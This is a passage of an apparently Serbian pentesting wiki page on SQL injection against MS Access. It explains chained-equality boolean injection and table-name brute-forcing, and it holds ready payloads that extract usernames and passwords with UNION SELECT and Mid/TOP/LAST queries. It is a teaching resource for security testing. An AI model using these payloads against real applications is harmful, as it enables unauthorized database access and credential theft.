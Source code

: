 U SQLi-u obično želite na neki način izvršiti novi upit kako biste izvukli informacije iz drugih tabela. MS Access uvek zahteva da se u **podupitima ili dodatnim upitima navede `FROM`**.\
Dakle, ako želite izvršiti `UNION SELECT` ili `UNION ALL SELECT` ili `SELECT` između zagrada u uslovu, uvek **morate navesti `FROM` sa validnim imenom tabele**.\
Stoga, morate znati **validno ime tabele**.

```sql
-1' UNION SELECT username,password from users%00
```

### Spajanje jednakosti + Podstring

{% hint style="warning" %}
Ovo će vam omogućiti da izvučete vrednosti trenutne tabele bez potrebe da znate ime tabele.
{% endhint %}

**MS Access** dozvoljava **čudnu sintaksu** kao što je **`'1'=2='3'='asd'=false`**. Kao i obično, SQL injection će biti unutar **`WHERE`** klauzule i to možemo zloupotrebiti.

Zamislite da imate SQLi u MS Access bazi podataka i znate (ili ste pretpostavili) da je jedno **ime kolone username**, a to je polje koje želite **izvući**. Možete proveriti različite odgovore veb aplikacije kada se koristi tehnika spajanja jednakosti i potencijalno izvući sadržaj sa **boolean injection** korišćenjem funkcije **`Mid`** za dobijanje podstringova.

```sql
'=(Mid(username,1,3)='adm')='
```

Ako znate **ime tabele** i **kolonu** koju želite da izvučete, možete koristiti kombinaciju funkcija `Mid`, `LAST` i `TOP` da **procurite sve informacije** putem boolean SQLi:

```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```

_Slobodno proverite ovo u online igralištu._

### Brute-forcing imena tabela

Koristeći tehniku lančanog jednako, takođe možete **bruteforceovati imena tabela** nečim poput:

```sql
'=(select+top+1+'lala'+from+<table_name>)='
```

Možete koristiti i tradicionalniji način:

```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```

_Slobodno proverite ovo u online igraonici._

* Sqlmap uobičajena imena tabela: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
* Postoji još jedna lista na [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

### Brute-Forcing imena kolona
